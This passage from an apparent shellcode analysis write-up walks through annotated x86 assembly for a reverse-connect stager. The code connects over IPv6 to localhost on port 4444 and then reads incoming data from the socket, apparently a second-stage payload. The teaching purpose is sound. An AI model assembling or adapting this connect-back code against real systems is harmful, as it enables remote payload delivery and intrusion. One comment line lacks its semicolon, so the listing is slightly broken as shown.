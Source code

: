 #### Interrupt 2 - Connect
The second chunk of instructions are responsible for creating an IPv6 connect structure.

```nasm
xchg eax,esi          ;place socket file descriptor into ESI. Also clear out EAX.
cdq

;populate the stack with the arguments for the sockaddr_in structure
push dword 0x0        ;ipv6 localhost pushed on to the stack
push dword 0x1000000  ;ipv6 localhost pushed on to the stack
push dword 0x0        ;ipv6 localhost pushed on to the stack
push dword 0x0        ;ipv6 localhost pushed on to the stack
push dword 0x0        ;ipv6 localhost pushed on to the stack
push edx
push word 0x5c11      ;sin_port 4444 pushed on to the stack
push word 0xa         ;sin_family, INET6, which is 10 pushed on to the stack

mov ecx,esp           ;the stack pointer to the sockaddr_in structure is moved into ecx
push byte +0x1c       ;push connect addrlen to the stack, the length of the struct
push ecx              ;the stack pointer to the sockaddr_in structure pushed on to the stack
push esi              push connect sockfd to the stack, this is the value of the file descriptor returned to socket
mov ecx,esp           ;update ecx to the stack pointer which currently contains a pointer to "sockfd, sockaddr_in, addrlen". All arguments for connect, as required by socketcall are pointed to by ECX
inc ebx               ;ebx now contains 2
inc ebx               ;ebx now contains 3, for the type of socketcall, which is connect
push byte +0x66       ;push 102 onto the stack (socketcall)
pop eax               ;socketcall syscall
int 0x80              ;execute connect
```

#### Interrupt 3 - Read
The last chunk of instructions are responsible for creating the read system call.

```nasm
mov ebx,esi         ;move the socket file descriptor into EBX
mov dh,0xc          
mov al,0x3          ;read syscall
int 0x80            ;execute read
```
